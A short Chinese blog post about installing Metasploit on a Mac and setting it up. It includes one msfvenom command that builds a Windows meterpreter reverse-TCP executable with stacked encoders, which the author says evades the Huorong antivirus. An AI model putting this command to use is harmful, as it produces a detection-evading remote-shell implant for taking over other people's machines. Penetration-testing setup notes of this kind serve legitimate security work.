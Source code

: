 ```yaml
---
layout: post
title:  "Mac环境下msf环境部署"
date:   2020-07-04 12:32:45 +0100
categories:
---
```


# msf安装
Mac官网下载[https://osx.metasploit.com/metasploitframework-latest.pkg](https://osx.metasploit.com/metasploitframework-latest.pkg) 
Win官网下载[https://windows.metasploit.com/metasploitframework-latest.msi](https://windows.metasploit.com/metasploitframework-latest.msi)  

- Mac推荐安装brew，神器!  
# 环境配置  
- brew install ruby  //安装ruby
```
msf在Mac默认安装位置为/opt/metasploit-framework/  
添加PATH环境:export PATH=/opt/metasploit-framework/bin:$PATH  
执行msfconsole启动  //我习惯使用msf启动 可以使用alias将msfconsole设置别名为msf
```

# msfvenom使用  //可Bypass最新版火绒(已提交火绒安全)  
直接上命令  
```msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.7.112 LPORT=1111 -f raw -e x86/shikata_ga_nai -i 8 | msfvenom -a x86 --platform windows -e x86/countdown -i 8 -f raw | msfvenom -a x86 --platform windows -e x86/shikata_ga_nai -i 10 -f exe -o 12345.exe```  
刚开始在使用msfcenom的时候报错缺少依赖，提示bundle install，安装依赖后依旧无法使用，初步断定为电脑环境问题，随即重装恢复系统 //重装后安装msf一切正常  
